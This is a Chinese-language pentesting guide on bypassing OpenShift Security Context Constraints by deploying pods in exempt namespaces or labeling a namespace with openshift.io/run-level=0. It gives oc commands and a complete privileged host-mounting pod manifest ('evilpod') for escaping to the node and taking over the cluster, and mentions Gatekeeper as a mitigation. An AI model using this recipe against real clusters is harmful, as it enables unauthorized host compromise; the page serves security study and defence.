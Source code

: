 # Openshift - SCC bypass

**该页面的原作者是** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## 特权命名空间

默认情况下，SCC 不适用于以下项目：

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

如果您在这些命名空间之一中部署 pod，将不会强制执行 SCC，从而允许部署特权 pod 或挂载主机文件系统。

## 命名空间标签

根据 RedHat 文档，有一种方法可以禁用 SCC 在您的 pod 上的应用。您需要至少拥有以下权限之一：

- 在此命名空间中创建命名空间并创建 pod
- 编辑命名空间并在此命名空间中创建 pod
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
特定标签 `openshift.io/run-level` 使用户能够绕过应用程序的 SCCs。根据 RedHat 文档，当使用此标签时，该命名空间内的所有 pod 都不执行任何 SCCs，有效地移除了任何限制。

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## 添加标签

在您的命名空间中添加标签：
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
通过 YAML 文件创建带标签的命名空间：
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
现在，在该命名空间中创建的所有新 pod 都不应具有任何 SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

在没有 SCC 的情况下，您的 pod 定义没有任何限制。这意味着可以轻松创建恶意 pod 以逃逸到主机系统上。
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
现在，提升权限以访问主机系统并随后接管整个集群，获得“cluster-admin”权限变得更加容易。请查看以下页面中的 **Node-Post Exploitation** 部分：

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### 自定义标签

此外，根据目标设置，可以像之前的攻击场景一样使用一些自定义标签/注释。即使不是专门为此而设计，标签也可以用于授予权限，限制或不限制特定资源。

如果您可以读取一些资源，请尝试查找自定义标签。以下是一些有趣的资源列表：

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## 列出所有特权命名空间
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## 高级利用

在 OpenShift 中，如前所示，拥有在带有 `openshift.io/run-level` 标签的命名空间中部署 pod 的权限，可以导致对集群的直接接管。从集群设置的角度来看，这一功能 **无法被禁用**，因为它是 OpenShift 设计的固有部分。

然而，像 **Open Policy Agent GateKeeper** 这样的缓解措施可以防止用户设置此标签。

为了绕过 GateKeeper 的规则并设置此标签以执行集群接管，**攻击者需要识别替代方法。**

## 参考文献

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
